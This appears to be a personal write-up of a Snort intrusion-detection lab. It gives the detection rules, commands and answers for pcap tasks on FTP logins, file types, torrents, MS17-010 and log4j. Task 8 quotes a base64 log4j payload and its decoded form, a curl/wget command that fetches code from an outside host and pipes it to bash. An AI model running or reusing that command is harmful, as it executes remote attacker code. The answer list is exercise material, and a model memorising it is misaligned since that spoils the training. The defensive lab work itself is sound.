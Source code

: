 ## snortchallenges1.md
unfinished 2022/04

### Task2
1. `detect all TCP port 80`
   * alert tcp any 80 <> any any (msg: "TCP Port 80";sid:1000001;rev:1;)
   * alert tcp any any <> any 80 (msg: "TCP Port 80";sid:1000002;rev:1;)
   * -> 328
2. `destination address of packet 63`
   * write alerts file with '-A fast', grep file line numbers 'cat -n' and grep for line '63'
   * -> 145.254.160.237
3. `ACK number of packet 64?`
   * work around from above no longer works as we more info using '-A full'
   * ACK numbers tend to get reused, so I just tried a few
   * -> 0x38AFFFF3
4. `SEQ number of packet 62?`
   * -> 0x38AFFFF3
5. `TTL of packet 65`
   * -> 128
6. `soure IP of packet 65`
   * -> 145.254.160.237
7. `soure port of packet 65`
   * -> 3372

### Task3
1. `detect all TCP port 21`
   * alert tcp any 21 <> any any (msg: "TCP Port 21";sid:1000001;rev:1;)
   * alert tcp any any <> any 21 (msg: "TCP Port 21";sid:1000002;rev:1;)
   * -> 614
2. `ftp service name`
   * didnt find a nice filter, so 'sudo snort -X -v -r ftp-png-gif.pcap > fulldump'
   * cat fulldump \| grep 220
   * -> microsoft ftp service
3. `number of failed ftp logins`
   * alert tcp any any <> any any (msg: "Failed login FTP"; content:"530 "; sid:1000004;rev:1;)
   * -> 41
4. `number of successful ftp logins`
   * alert tcp any any <> any any (msg: "Login FTP"; content:"230 User"; sid:1000005;rev:1;)
   * -> 1
5. `number of failed logins with valid user`
   * alert tcp any any <> any any (msg: "User ok, need pass"; content:"331 Password"; sid:1000006;rev:1;)
   * -> 42
6. `number of failed logins with user Administrator`
   * alert tcp any any <> any any (msg: "User Admin, need pass"; content:"331 Password required for Administrator"; sid:1000007;rev:1;)
   * -> 7

### Task 4
1. `detect PNG files and find embedded software`
   * alert tcp any any <> any any (msg: "PNG File"; content: "PNG"; sid: 100001; rev:1;)
   * run snort with -d -e -v do get full package data: sudo snort -c local.rules -A full -d -e -v -l . -K ASCII -r ftp-png-gif.pcap 
   * -> Adobe ImageReady
2. `detect GIF file and find image format`
   * alert tcp any any <> any any (msg: "GIF File"; content: "GIF"; sid: 100002; rev:1;)
   * again run with -d -e -v, one of the logs will show the magic bytes for GIF
   * -> GIF89a

### Task 5
1. `detect torrent meta file`
   * alert tcp any any <> any any (msg: "torrent File"; content: ".torrent"; sid: 100001; rev:1;)
   * -> 2
2. `name of the torrent application`
   * run rule from 5.1. with -d -e -v, one of the logs will have application/x- header
   * -> bittorent
3. `MIME type of torrent file`
   * run rule from 5.1. with -d -e -v, the data we used in 2 is the MIME type
   * -> application/x-bittorrent
4. `hostname of the torrent metafile`
   * run rule from 5.1. with -d -e -v, look for 'Host:'
   * -> tracker2.torrentbox.com

### Task 6 - fix issues with local-X.rules files
1. missing space between last 'any' and '('
   * -> 16
2. 'port value missing in rule', must be 'icmp any any' instead of 'icmp any'
   * -> 68
3. double sid
   * -> 87
4. missing ';' after msg and double sid
   * -> 90
5. rule direction '<-' not allowed, missing ';' after msg and 'sid;' instead of 'sid:'
   * -> 155
6. missing 'nocase;' after content
   * -> 2
7. rule is looking for '.html', but is missing a message block
   * -> msg

### Task 7
1. `number of detected packets with given ruleset`
   * -> just run sudo snort -c local.rules -r ms-17-010.pcap
   * -> 25154
2. `number of packets with \IPC$`
   * alert tcp any any -> any any (msg: "IPC Detected!"; content: "\\IPC$";sid: 20244225; rev:3;)
   * -> 12
3. `request path`
   * sudo snort -c local-1.rules -A full -dev -l . -K ASCII -r ms-17-010.pcap
   * cat * \| grep \\\\ -A 2
   * -> \\192.168.116.138\IPC$
4. `CVSS v2 score of MS17-010 `
   * https://nvd.nist.gov/vuln/detail/cve-2017-0144
   * -> 9.3

### Task 8
1. `number of detected packets with given ruleset`
   * just run sudo snort -c local.rules -r log4j.pcap
   * -> 26
2. `number of rules triggered`
   * all used sids are 8 digits, thus we can just cat, grep, sort
   * cat alert | egrep -o '\\[1\\:[0-9]{8}\\:1\\]' | sort | uniq
   * -> 4
3. `first 6 digits of triggered rules`
   * use command from 8.2.
   * -> 210037
4. `write rule to filter payload between 770 and 855 bytes`
   * alert tcp any any -> any any (msg:"Size 770-855b"; dsize: 770<>855;sid:1000001; rev:1;)
   * -> 41
5. `encoding algorithm used`
   * if you cat all ASCII logs you will find utf-8 which is wrong, but also /Basic/Command/Base64/KGN1cmwgLX... which looks base64
   * it also makes sense in the context of log4j. As in which encoding was used to hide the payload when exploiting log4j
   * -> base64
6. `IP ID of the corresponding packet`
   * on the package you found in 8.5 scroll up and look for 'ID=' in the TCP header
7. `attackers command`
   * copy the base64 string, remove the hex representation if needed and convert using your favorite tool (e.g. cyberchef)
   * KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=
   * -> (curl -s 45.155.205.233:5874/162.0.228.253:80\|\|wget -q -O- 45.155.205.233:5874/162.0.228.253:80)\|bash
8. `CVSS v2 score of log4j`
   * https://nvd.nist.gov/vuln/detail/CVE-2021-44228
   * -> 9.3
